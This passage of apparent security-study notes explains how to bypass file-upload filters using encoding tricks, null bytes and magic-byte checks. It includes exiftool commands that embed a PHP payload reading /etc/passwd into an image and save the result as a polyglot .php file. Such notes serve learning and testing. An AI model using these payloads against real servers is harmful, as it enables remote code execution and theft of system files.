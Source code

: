 ![[PHP JPG.png]]

It may succeed but it may not be interpreted as a PHP script. Also try using URL and double URL encoding:

![[URL Encoded.png]]

If no success, try adding a null byte:

![[Null Byte.png]]

It may work as it bypasses the filters and when it gets saved, the null byte terminates there, removing anything afterwards.

# Flawed Validation

More secure servers may verify the contents of the file actually match what is expected. For example, the server may try to verify certain intrinsic properties of an image like dimensions. Certain file types may always contain a specific sequence of bytes in their header or footer.

They are used like a fingerprint to determine whether the contents match the expected type - JPEG files always begin with the bytes `FF D8 FF`. Using tools, you can create a polyglot JPEG file containing malicious code within its metadata.

For example, try using Exiftool to inspect a JPEG or PNG file:

>[!powershell]
>```powershell
>.\exiftool.exe ..\AstroKitty.png

![[Exiftool.png]]

It can reveal details about the file. A comment can be added to the metadata of the image:

>[!powershell]
>```powershell
>.\exiftool.exe -comment="pwned" ..\AstroKitty.png

![[Comment Pwned.png]]

Try modifying the comment with some PHP:

>[!powershell]
>```powershell
>.\exiftool.exe -comment="<?php echo 'PAYLOAD' . file_get_contents('/etc/passwd') . 'PAYLOAD2'; ?>" ..\AstroKitty.png

![[Comment PHP.png]]

Next, make it a polyglot by specifying an output file to create a new file with a different extension:

>[!powershell]
>```powershell
>.\exiftool.exe -comment="<?php echo 'PAYLOAD' . file_get_contents('/etc/passwd') . 'PAYLOAD2'; ?>" ..\AstroKitty.png -o polyglot.php

